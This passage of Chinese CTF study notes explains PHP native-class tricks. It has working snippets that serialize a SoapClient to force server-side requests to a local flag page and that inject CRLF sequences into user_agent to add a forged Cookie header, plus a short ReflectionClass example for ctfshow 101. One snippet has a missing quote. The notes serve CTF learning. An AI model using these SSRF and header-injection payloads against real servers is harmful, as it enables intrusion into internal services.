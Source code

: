     SoapClient类可以创建soap数据报文，与wsdl接口进行交互

* 发起请求

    ```php

    <?php
    $a = new SoapClient(null,array(location'=>'http://127.0.0.1/flag.php','uri'=>'http://127.0.0.1'));
    $b = serialize($a);
    echo $b;
    $c = unserialize($b);
    $c->a();

    ```

    SoapClient中第一个参数的意思是：控制是否是wsdl模式，如果为NULL，就是非wsdl模式。如果是非wsdl模式，反序列化的时候就会对options中的url进行远程soap请求，第二个参数的意思是：一个数组，里面是soap请求的一些参数和属性。

* CRLF

    soap类存在CRLF漏洞

    ```php


    <?php
    $url = "http://127.0.0.1/flag.php";
    $b = new SoapClient(null, array('uri' => $url, 'location' => $url));
    $a = serialize($b);
    $a = str_replace('^^', "\r\n", $a);
    echo "|" . urlencode($a);
    

    $target = 'http://127.0.0.1/flag.php';
    $b = new SoapClient(null, array('location' => $target,
        'user_agent' => "npfs\r\nCookie:PHPSESSID=123456\r\n",// r n 也就是空行回车
        'uri' => "http://127.0.0.1/"));
    
    $se = serialize($b);
    echo "|" . urlencode($se);
    ```

    会增加额外的自定义请求字段



### 反射类ReflectionClass


反射在每个面向对象的编程语言中都存在，它的主要目的就是在运行时分析类或者对象的状态，导出或提取出关于类、方法、属性、参数等的详细信息，包括注释。

ctfshow 101

```php

echo new ReflectionClass()
可以将括号中的语句在类构建时执行

class test{

    public $a = "hello";

}

echo new ReflectionClass("test");

```
